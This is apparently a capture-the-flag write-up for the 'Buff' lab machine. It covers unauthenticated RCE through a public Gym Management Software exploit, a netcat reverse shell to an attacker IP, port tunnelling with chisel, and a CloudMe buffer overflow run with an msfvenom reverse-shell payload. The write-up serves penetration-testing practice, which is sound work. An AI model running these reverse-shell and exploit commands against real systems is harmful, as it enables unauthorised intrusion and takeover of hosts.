 # Buff

### Reconnaissance

- port 7680/tcp pando-pub Pando file management software
- port 8080/tcp HTTP

mrb3n's Bro Hut, made using Gym Management Software 1.0

### Exploitation

Vulnerable to Unauthenticated RCE through file upload https://www.exploit-db.com/exploits/48506

Run the exploit to get a webshell on the target

`python2.7 48506.py 'http://10.10.10.198:8080/`

We can upgrade our shell with `nc64.exe` https://github.com/int0x33/nc.exe

Start an SMB server in our uploads directory

`impacket-smbserver -smb2support share -username s -password s`

Connect to it from the webshell

`C:\xampp\htdocs\gym\upload> net use \\10.10.10.10\share /u:s s`

Copy nc64.exe to the target and get a reverse shell

```
C:\xampp\htdocs\gym\upload> copy \\10.10.14.7\share\nc64.exe C:\ProgramData\nc.exe
C:\xampp\htdocs\gym\upload> C:\ProgramData\nc.exe 10.10.10.10 443 -e cmd.exe
```

### Privilege Escalation

Manual enumeration was very important for Buff, using `netstat -ano | findstr TCP | findstr "127.0.0.1"` we 
can see that a process is listening on port 3306 and on port 8888 (only appears intermittently!) locally

Find the executable listening on the port (not reliable, the PID changes very quickly)

`tasklist /v | findstr <PID>`

Port 3306 is mysql for XAmpp, but 8888 is CloudMe.exe

Search C:\ for CloudMe

`dir C:\ /s /b | findstr CloudMe"`

We find the CloudMe exe in Shaun's Downloads

![CloudMe](./pictures/cloudme.png)

Searchsploit shows a couple of buffer overflows that match the version

![CloudMe](./pictures/cloudme-searchsploit.png)

As it's locally hosted we need to use chisel to expose the port on our machine, run chisel in server mode on 
the attacking machine

`chisel server -p 8000 --reverse`

Upload chisel to the target with our SMB share and run it in client mode

`.\chisel.exe client 10.10.10.10:8000 R:8888:localhost:8888`

Using the remote exploit 48389.py, replace the shellcode for calc.exe with a generic windows/shell_reverse_tcp
generated with msfvenom

`msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload `

Start a netcat listener with rlwrap (Important, won't work otherwise!), swap the shellcode and run the 
exploit to get an Administrator shell

### Lessons Learned

- XAmpp uses php + mysql

- Find local listening network connections with `netstat -ano | findstr TCP | findstr ":0"` the last column 
is the PID

- Find executables running with `tasklist /v`, and with their PID `tasklist /v | findstr <PID>`

- Find file locations with `dir C:\ /s /b | findstr <filename>`

- Use `-v name` with msfvenom shellcode to replace the default variable name

- Use rlwrap to catch shells with netcat to avoid pain and suffering
